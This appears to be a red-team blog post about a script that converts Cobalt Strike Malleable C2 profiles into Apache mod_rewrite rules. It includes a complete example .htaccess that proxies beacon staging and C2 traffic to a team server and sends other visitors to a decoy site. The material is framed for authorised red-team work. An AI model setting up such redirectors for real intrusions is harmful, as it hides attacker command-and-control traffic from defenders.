

This post describes a script I created to convert a Cobalt Strike Malleable C2 profile to corresponding mod_rewrite rules to enable intelligent HTTP proxying for redirection of C2 traffic. The script automates the [process](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/) described by well known redteamer and now co-worker – Jeff Dimmock ([@bluscreenofjeff](https://twitter.com/bluscreenofjeff)). Intelligent use of C2 redirectors is core to a mature C2 architecture that can withstand some gentle investigation and prodding. Developing Cobalt Strike compatible mod_rewrite rules to redirect traffic is not incredibly difficult, but there are a few Apache "gotchas" and the process can be error prone when dealing with multiple C2 profiles. Automation improves consistency and reduces the time needed to spin-up, test, and troubleshoot a unique and layered C2 infrastructure. It is always nice to start from a known good.

<!-- truncate -->
## Highlights of cs2modrewrite.py

- Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. **Result**: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
- Uses a custom Malleable C2 profile to build a _.htaccess_ file with corresponding mod_rewrite rules
- Supports the most recent Cobalt Strike 3.10 profile features
- HTTP or HTTPS proxying to the Cobalt Strike Team Server
- HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick Start

## Usage

The script can be found at:

[github - cs2modrewrite](https://github.com/threatexpress/cs2modrewrite)

### Arguments

```
cs2modrewrite.py [-h] [-i INPUTFILE] [-c C2SERVER] [-d DESTINATION]

Converts Cobalt Strike profiles to Apache mod_rewrite .htaccess file format by
using the User-Agent and URI Endpoint to create rewrite rules. Make sure the
profile passes a c2lint check before running this sript.

optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver)
    -d DESTINATION  (Optional) Redirect to this URL (http://google.com)
```

### Example Output

```
#### Save the following as .htaccess in the root web directory

########################################
## .htaccess START
RewriteEngine On

## (Optional)
## Scripted Web Delivery
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here
RewriteRule ^.*$ HTTPS://GOHERE/? [L,R=302]

## .htaccess END
########################################
```

## What does this .htaccess do?

### Staging

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and a 4 character URI, it proxies the traffic to the teamserver.

### C2 Traffic

When Apache receives an HTTP request with the User-Agent Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 5.2) Java/1.5.0_080 and one of the following URIs

`(/include/template/isx.php._|/wp06/wp-includes/po.php._|/wp08/wp-includes/dtcla.php,/modules/mod_search.php,/blog/wp-includes/pomo/src.php,/includes/phpmailer/class.pop3.php,/api/516280565958,/api/516280565959)`

it proxies the traffic to the teamserver.

### Catch All

Any traffic that doesn't match a rule redirects the request using an HTTP 302

## Summary

**TLDR** The python script _cs2modrewrite.py_ automates the process of creating a Malleable C2 compatible .htaccess file for intelligent redirection with Apache mod_rewrite. Try it out and feel free to give feedback and suggestions at [@joevest](https://www.twitter.com/joevest) on Twitter and on the ThreatExpress GitHub [repo](https://github.com/threatexpress/cs2modrewrite).

For more details on developing C2 architecture, check out the Red Team Infrastructure [Wiki](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki).

## References

- https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
- https://twitter.com/bluscreenofjeff
- https://github.com/threatexpress/cs2modrewrite
- https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki
